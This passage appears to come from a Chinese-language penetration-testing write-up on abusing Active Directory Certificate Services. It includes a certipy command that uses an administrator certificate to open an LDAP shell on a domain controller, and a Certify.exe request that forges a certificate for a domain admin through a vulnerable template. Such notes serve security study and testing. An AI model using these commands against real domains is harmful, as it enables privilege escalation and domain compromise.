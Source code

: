 不过可以直接利用命令来获取shell，然后就可以不需要获取hash再通过wmiexec或者psexec等进行横向了

```angular2html
certipy auth -pfx administrator.pfx -dc-ip 192.168.1.10 -ldap-shell
```

![img.png](images/37.png)

### Certify.exe

这个需要在域内进行使用

```
Certify.exe request /ca:town.domain\town-DC-CA /template:ECS1Tmpl /altname:domadmin
```

![img.png](images/38.png)
